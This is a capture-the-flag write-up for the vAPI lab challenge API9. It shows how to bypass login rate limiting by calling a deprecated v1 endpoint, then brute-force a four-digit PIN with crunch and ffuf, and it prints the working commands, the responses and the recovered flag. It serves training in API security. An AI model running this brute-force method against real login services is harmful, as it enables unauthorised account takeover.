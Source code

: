 > Hey Good News!!!!! We just launched our v2 API :)

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
crunch version 3.6
ffuf 2.1.0-dev
cat (GNU coreutils) 9.4
```

# Login
## POST /vapi/api9/v2/user/login

Lets try to send a request with the example username provided (richardbranson) to see the response
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"richardbranson\",\x0d\x0a    \"pin\":\"****\"\x0d\x0a}' \
    $'http://localhost/vapi/api9/v2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 18:32:26 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 18:32:26 GMT
X-RateLimit-Limit: 5
X-RateLimit-Remaining: 4
```
- Observe that there is rate limiting
	- This means we only have 5 tries to get the correct login, with 4 tries remaining.

Lets see if the previous version (v1) of the API is still available
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"richardbranson\",\x0d\x0a    \"pin\":\"****\"\x0d\x0a}' \
    $'http://localhost/vapi/api9/v1/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 18:34:24 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 18:34:24 GMT
```
- Observe that the old version of the endpoint is still accessible, and without rate limiting

Since there is no rate limiting in the old version, we can try to brute force the 4 digit pin.

Create a pin wordlist using crunch.
```bash
crunch 4 4 1234567890 -o /home/kali/Desktop/pin.txt
```

Brute force the pin for the user, richardbranson and filter for any responses that has no data, since all the responses are returning with 200.
```bash
ffuf -w /home/kali/Desktop/pin.txt -X POST -u http://localhost/vapi/api9/v1/user/login/ -H "Content-Type: application/json" -d '{"username": "richardbranson", "pin": "§§"}' -fs 0 -mode sniper -od /home/kali/Desktop/ffuf_responses -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/vapi/api9/v1/user/login/
 :: Wordlist         : FUZZ: /home/kali/Desktop/pin.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"username": "richardbranson", "pin": "§§"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 83, Words: 1, Lines: 1, Duration: 2151ms]
| URL | http://localhost/vapi/api9/v1/user/login/
| RES | 10f7b97e3dde7382548af0e4f0b8c8b6
    * FUZZ: 1655

:: Progress: [10000/10000] :: Job [1/1] :: 18 req/sec :: Duration: [0:09:04] :: Errors: 0 ::
```

View the matched fuff response file:
```bash
cat /home/kali/Desktop/ffuf_responses/10f7b97e3dde7382548af0e4f0b8c8b6
```
```
POST /vapi/api9/v1/user/login/ HTTP/1.1
Host: localhost
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Content-Length: 45
Content-Type: application/json
Accept-Encoding: gzip

{"username": "richardbranson", "pin": "1655"}
---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache, private
Content-Type: application/json
Date: Sun, 30 Jun 2024 18:55:52 GMT
Date: Sun, 30 Jun 2024 18:55:52 GMT
Host: localhost
X-Powered-By: PHP/7.4.33

{"id":1,"username":"richardbranson","accbalance":"flag{api9_81e306bdd20a7734e244}"}
```

API9 Flag
```
flag{api9_81e306bdd20a7734e244}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa9-improper-assets-management/
https://owasp.org/API-Security/editions/2023/en/0xa9-improper-inventory-management/